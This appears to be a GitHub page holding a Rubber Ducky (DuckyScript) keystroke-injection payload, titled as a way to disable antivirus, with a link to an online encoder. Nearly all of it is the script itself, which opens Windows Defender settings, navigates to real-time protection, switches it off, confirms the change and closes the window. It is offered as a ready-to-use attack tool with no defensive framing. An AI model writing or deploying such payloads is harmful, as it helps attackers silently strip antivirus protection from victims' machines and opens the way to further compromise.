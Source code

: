 # Rubber-Ducky-Payload
 ENCODER https://ducktoolkit.com/


Disable Av Via clicking 

DELAY 1000
REM Open Windows Defender settings
CTRL ESC
DELAY 1000
STRING Windows Defender Settings
DELAY 100
ENTER
REM Navigate to realtime protection and disable it
DELAY 1000
ENTER
DELAY 1000
TAB
DELAY 250
TAB
DELAY 250
TAB
DELAY 250
TAB
ENTER
DELAY 1000
SPACE
DELAY 1000
LEFT
DELAY 500
ENTER
REM Close Settings
DELAY 500
ALT F4
DELAY 100
ALT F4
